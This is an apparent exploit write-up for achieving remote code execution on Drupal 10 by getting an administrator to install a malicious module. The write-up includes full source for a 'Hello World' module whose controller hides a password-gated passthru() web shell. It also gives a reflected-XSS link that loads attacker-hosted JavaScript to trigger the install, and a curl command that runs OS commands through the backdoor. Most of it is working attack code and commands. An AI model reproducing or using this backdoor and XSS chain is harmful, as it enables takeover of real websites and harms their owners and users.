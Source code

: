 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create Drupal module containing PHP payload] backdoor source code

(`hello_world.info.yml`)

```
name: hello_world
type: module
description: 'Hello World custom module'
package: custom
version: 1.0
core_version_requirement: ^10
```

(`hello_world.routing.yml`)

```
hello_world.hellomsg:
  path: '/hello-world'
  defaults:
    _controller: 'Drupal\hello_world\Controller\HelloWorldController::message'
    _title: 'Hello World!!'
  requirements:
    _permission: 'access content'
```

(`src/Controller/HelloWorldController.php`)

```
<?php

namespace Drupal\hello_world\Controller;

class HelloWorldController {
  public function message() {
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    return [
      '#markup' => 'Hello World message from custom module'
    ];
  }
}
```

2. [create Drupal module containing PHP payload] create Drupal module

```
tar cvf hello_world.tar.gz *
```

3. victim user (with administrative privileges) logs in

http://192.168.5.17/user/login

4. victim user clicks link

```
http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/installModuleDrupal.js></script>
```

6. execute OS command

```
curl -s "http://192.168.5.17/hello-world?pass=test&cmd=id" | head -n 1
```

7. [optional] uninstall plugin

*Drupal -> Extend -> [tab] Uninstall -> (filter by name) hello -> (mark checkbox) Hello World -> Uninstall -> Uninstall*

## Screenshots

![Image](screenshots/Drupal_-_install_module_-_1-1.png)
